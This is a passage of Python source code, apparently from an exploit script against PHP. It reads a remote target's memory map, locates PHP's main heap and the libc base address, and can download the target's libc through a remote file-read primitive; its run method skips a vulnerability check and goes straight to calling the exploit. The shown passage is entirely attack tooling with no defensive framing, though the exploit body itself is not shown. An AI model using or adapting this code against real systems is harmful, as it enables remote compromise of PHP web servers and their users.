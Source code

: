 ```python

        LIBC_FILE = "./libc.so.6"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

```